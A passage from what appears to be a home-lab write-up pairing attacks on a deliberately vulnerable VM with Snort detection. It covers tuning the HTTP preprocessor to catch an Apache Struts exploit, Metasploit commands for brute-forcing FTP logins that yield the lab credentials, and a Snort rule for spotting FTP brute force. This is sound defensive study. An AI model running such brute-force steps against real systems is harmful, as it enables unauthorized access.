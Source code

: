 Metasploit is able evade Snort as the preprosessor rules are not configured properly. So as a final step, I need to add the port to the HTTP normalization preprosessor configuration as well:

```shell
# HTTP normalization and anomaly detection.
ports {...8282...}
```

And when I run the exploit again:

```shell
04/09-12:07:17.139087  [**] [1:39191:1] SERVER-APACHE Apache Struts remote code execution attempt [**] [Classification: Attempted Administrator Privilege Gain] [Priority: 1]
```
Success!

### FTP

As nmap show that port 21/tcp ftp is open, we can try to brute force for default or weak admin credentials. 

#### Attack

To brute force FTP credentials, we can use metasploits auxiliary/scanner/ftp/ftp_login and user and pass_lists provided by metasploit.

```shell

> use auxiliary/scanner/ftp/ftp_login
> set pass_file /opt/metasploit-framework/embedded/framework/data/wordlists/unix_passwords.txt
> set user_file /opt/metasploit-framework/embedded/framework/data/wordlists/unix_users.txt 
> set RHOSTS 172.28.128.3

> run

# 20 minutes later..
[+] 172.28.128.3:21       - 172.28.128.3:21 - LOGIN SUCCESSFUL: administrator:vagrant

```

It seems we get the credentials! I also verified that the credentials used via FTP.

#### Detection

By default, Snort don't alert about brute force FTP login attemps. In the registered rules, I was also not able to find such rules. However, it can be so difficult they are incorrect login attemps that can be restricted to port 21.

As I'm not Snort native yet, I googled around and found following rule that we can use to test:

```shell
alert tcp $HOME_NET 21 -> $EXTERNAL_NET any (msg:"ET SCAN Potential FTP Brute-Force attempt"; flow:from_server,established; dsize:<100; content:"530 "; depth:4; pcre:"/530\s+(Login|User|Failed|Not)/smi"; classtype:unsuccessful-user; threshold: type threshold, track by_dst, count 5, seconds 300; sid:2002383; rev:11;)
```

